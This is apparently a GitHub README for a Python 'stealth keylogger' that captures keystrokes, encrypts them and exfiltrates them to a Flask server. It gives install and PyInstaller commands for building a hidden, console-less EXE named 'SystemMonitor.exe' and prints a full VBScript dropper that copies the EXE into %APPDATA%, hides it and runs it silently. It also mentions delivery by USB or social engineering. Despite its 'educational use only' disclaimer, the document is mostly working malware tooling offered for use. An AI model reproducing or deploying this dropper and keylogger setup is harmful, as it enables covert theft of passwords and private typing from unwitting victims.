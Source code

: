 # Python-based Stealth Keylogger with Flask Exfiltration

> **Educational Use Only!** This keylogger project was built strictly for academic and cybersecurity awareness purposes. Unauthorized deployment is illegal and unethical.

---

## Project Overview

This Python-based keylogger captures keystrokes from a target system, encrypts them, and exfiltrates the data to a local Flask server. It is stealthily compiled into an `.exe` file and can be delivered via USB or remotely through links or social engineering. This keylogger attacks system that has Python installed in them.
Systems without Python, won't be able to run this keylogger properly.

### Features

*  Stealth keylogger (runs silently with no console window)
*  Encrypted keystroke logging with timestamp
*  Real-time exfiltration to a local Flask server
*  Log viewing via `/view` endpoint (with decryption)
*  Executable delivery (via PyInstaller)

---

## Project Structure

```
.
├── main.py              # Keylogger logic
├── server.py            # Flask server to receive logs
├── encryption.py        # Encryption/decryption logic
├── exfil.py             # Exfiltration helper
├── Logs/                # Received keystroke logs
├── dist/
│   └── SystemMonitor.exe   # Final compiled EXE
├── launch.vbs           # Dropper script
```

---

## Execution Steps

### 1. Install Dependencies

```bash
pip install flask pynput cryptography
```

### 2. Run Flask Server

```bash
python server.py
```
Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. The use of '/view' and '/capture' is explained in description of `server.py` attachment. We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt
### 3. Run Keylogger

```bash
python main.py
``` 
---

## Building the EXE (Stealth Mode)

```bash
pyinstaller --onefile --noconsole main.py
```
Make sure you have started your virtual environment before executing this command, otherwise you may face issues while running .exe file.
Converts main.py to .exe file so that it runs as a program.
Output will be in `dist/SystemMonitor.exe`

---


## Dropper Script (launch.vbs)

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set shell = CreateObject("WScript.Shell")

src = fso.GetAbsolutePathName("SystemMonitor.exe")
destFolder = shell.ExpandEnvironmentStrings("%APPDATA%\WinLogs")
dest = destFolder & "\SystemMonitor.exe"

If Not fso.FolderExists(destFolder) Then
    fso.CreateFolder(destFolder)
End If
If Not fso.FileExists(dest) Then
    fso.CopyFile src, dest
    shell.Run "cmd /c attrib +h '" & dest & "'", 0, True
End If
shell.Run """" & dest & """", 0, False
```

---
## Scripts used
### main.py
The main logic for keylogger. It uses pynput library, which uses `keyboard.Listener()` that 'listens' or captures keystrokes. The pynput library is fully used for keyboard and mouse monitoring. What each function in main.py does:-
1. ** process_key(key): ** Processes a single keystroke, formats it for logging, and sends it to an external function (send_keystroke()) with a timestamp. It also handles special cases like the ESC key to stop the keylogger.
2. ** on_press(key): **
     - Calls `process_key(key)` to handle the key.
     - If process_key returns False (i.e., ESC was pressed), the function returns False, which stops the keyboard listener.
     - Otherwise, it implicitly returns None, allowing the listener to continue.
3. ** on_release(key): **
     - Input: Takes a key object from the pynput.keyboard listener.
     - Logic: Does nothing (pass) but can be extended to handle key release events if needed (e.g., logging key release times).
     - Return Value: Implicitly returns None.
The script terminates when `ESC` is pressed on keyboard.
---

## 🚫 Disclaimer

This project was developed **only for educational demonstrations** in ethical hacking labs and internships. Misuse may be punishable under cybercrime laws.

> Be smart. Be ethical. Use your skills to protect, not harm.

---

## 📄 Credits

* Python `pynput` for keystroke monitoring
* Flask for exfil server
* Cryptography for Fernet encryption
* Steghide for payload concealment

---

**Author:** \[Your Name Here]
**GitHub:** \[github.com/yourusername]
**LinkedIn:** \[linkedin.com/in/yourprofile]
